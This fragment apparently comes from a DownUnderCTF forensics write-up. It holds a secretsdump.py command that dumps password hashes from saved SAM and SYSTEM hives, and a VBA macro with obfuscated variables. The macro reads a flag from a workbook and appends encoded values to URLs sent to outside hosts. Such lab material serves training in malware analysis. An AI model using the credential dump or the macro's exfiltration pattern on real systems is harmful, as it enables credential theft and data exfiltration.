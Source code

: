 ```secretsdump.py -sam sam.bak -system system.bak LOCAL```
    Dim C As String
    Dim D As String
    Dim E As String
    Dim F As String
    Dim G As String
    Dim H As String
    Dim J As String
    Dim K As String
    Dim L As String
    Dim M As String
    Dim N As String
    Dim O As String
    Dim P As String
    Dim Q As String
    Dim R As String
    Dim S As String
    Dim T As String
    Dim U As String
    Dim V As String
    Dim W As String
    Dim X As String
    Dim Y As String
    Dim Z As String
    Dim I As Long
    N = importantThing()
    K = "Yes"
    S = "Mon"
    U = forensics(K)
    V = totalyFine(U)
    D = "Ma"
    J = "https://play.duc.tf/" + V
    superThing (J)
    J = "http://flag.com/"
    superThing (J)
    G = "key"
    J = "http://play.duc.tf/"
    superThing (J)
    J = "http://en.wikipedia.org/wiki/Emu_War"
    superThing (J)
    N = importantThing()
    Path = ThisWorkbook.Path & "\flag.xlsx"
    Set wb = Workbooks.Open(Path)
    Dim valueA1 As Variant
    valueA1 = wb.Sheets(1).Range("A1").Value
    MsgBox valueA1
    wb.Close SaveChanges:=False
    F = "gic"
    N = importantThing()
    Q = "Flag: " & valueA1
    H = "Try Harder"
    U = forensics(H)
    V = totalyFine(U)
    J = "http://downunderctf.com/" + V
    superThing (J)
    W = S + G + D + F
    O = doThing(Q, W)
    M = anotherThing(O, W)
    A = something(O)
    Z = forensics(O)
    N = importantThing()
    P = "Pterodactyl"
    U = forensics(P)
    V = totalyFine(U)
```